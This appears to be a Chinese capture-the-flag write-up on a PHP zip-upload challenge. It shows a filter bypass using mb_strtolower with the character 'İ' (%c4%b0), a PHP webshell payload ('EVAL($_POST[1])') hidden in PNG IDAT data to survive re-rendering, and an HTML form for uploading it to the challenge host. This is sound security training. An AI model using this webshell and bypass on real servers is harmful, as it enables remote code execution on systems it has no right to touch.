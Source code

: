 
这个页面的功能主要就是解压缩zip格式文件，并且重新渲染png文件也就是二次渲染。

那么也就是上传一个zip文件，但在upload.php中把i过滤了，可以用利用`mb_strtolower`解析漏洞来unicode字符代替绕过。

```php
可以利用一些unicode字符绕过。
<?php
var_dump(mb_strtolower('İ')==='i');
?>
结果为true
且前面还进行了url解密。所以可以用%c4%b0代替'İ'字符
```

为了绕过图片的二次渲染并实现木马的写入我们使用这个脚本。

https://github.com/huntergregal/PNG-IDAT-Payload-Generator/

我们首先要修改脚本中的payload

![image-20241103200123313](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202411032001451.png)

![image-20241103200133647](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202411032001674.png)

输出为16进制

![image-20241103200204544](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202411032002579.png)

```
[<?=EVAL($_POST[1]); ?>X               x后面有两个不可见字符，16进制编码后用00 00补上
a39f67641d201612546f112e29152b2167226b505050506f5f5310 
```

然后我们修改脚本

![image-20241103200357738](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202411032003771.png)

运行脚本后，将得到的png文件后缀改为php，并解压为zip格式

![image-20241103200441752](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202411032004781.png)

我们写个文件上传页面

```
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>POST数据包POC</title>
</head>
<body>
<form action="http://9b8305c0-3790-4261-badc-143033f6cc9b.node5.buuoj.cn:81/upload.php?ctf=upload" method="post" enctype="multipart/form-data">
    <!--链接是当前打开的题目链接-->
    <label for="file">文件名：</label>
    <input type="file" name="postedFile" id="postedFile"><br>
    <input type="submit" name="submit" value="提交">
</form>
</body>
</html>
```
